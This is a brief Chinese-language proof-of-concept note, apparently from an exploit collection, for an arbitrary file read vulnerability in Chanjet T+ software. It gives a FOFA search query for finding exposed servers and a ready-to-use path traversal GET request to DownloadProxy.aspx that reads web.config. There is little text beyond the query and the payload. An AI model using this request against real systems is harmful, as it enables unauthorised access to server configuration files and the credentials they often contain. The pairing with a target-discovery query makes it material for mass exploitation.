 # 畅捷通T+ 任意文件读取漏洞
## 资产搜索
fofa app="畅捷通-TPlus"
![](img/T+.png)
## POC
`GET /tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../web.config`  
![](img/T+POC.png)